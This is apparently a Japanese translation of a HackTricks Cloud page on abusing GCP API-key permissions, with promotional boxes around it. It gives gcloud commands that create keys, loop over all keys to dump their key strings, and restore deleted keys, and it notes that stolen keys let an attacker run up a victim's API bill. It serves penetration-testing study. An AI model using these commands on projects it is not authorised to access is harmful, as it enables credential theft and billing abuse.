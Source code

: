 # GCP - Apikeys Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Apikeys

以下の権限はAPIキーを作成し盗むのに役立ちますが、ドキュメントからこの点に注意してください：_APIキーは**任意のプリンシパルを識別せずに**アプリケーションを識別する単純な暗号化された文字列です。これらは**公開データに匿名でアクセスする**ために役立ち、APIリクエストをクォータと**請求**のためにプロジェクトに**関連付ける**ために使用されます。_

したがって、APIキーを使用すると、APIの使用料金をその会社に支払わせることができますが、権限を昇格させることはできません。

プロジェクトでどのAPIが有効になっているかわからない場合は、ツール[https://github.com/ozguralp/gmapsapiscanner](https://github.com/ozguralp/gmapsapiscanner)を実行して、**APIキーで何にアクセスできるかを確認する**ことが興味深いでしょう。

APIキーに関する詳細情報はこちらをチェックしてください：

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

この権限は**APIキーを作成する**ことを許可します：
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
以下は、スクリプトを自動化するためのものです。[**脆弱な環境の作成、悪用、およびクリーニングはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh)。

### `apikeys.keys.getKeyString`, `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

これらの権限は**すべてのapiKeysをリストアップし、Keyを取得することを許可します**：
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
以下は、[**脆弱な環境の作成、悪用、およびクリーニングを自動化するスクリプト**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)です。

### `apikeys.keys.undelete`, `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

これらの権限により、**削除されたAPIキーをリストアップし、再生成することができます**。**APIキーは、undeleteが完了した後に出力に表示されます**：
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
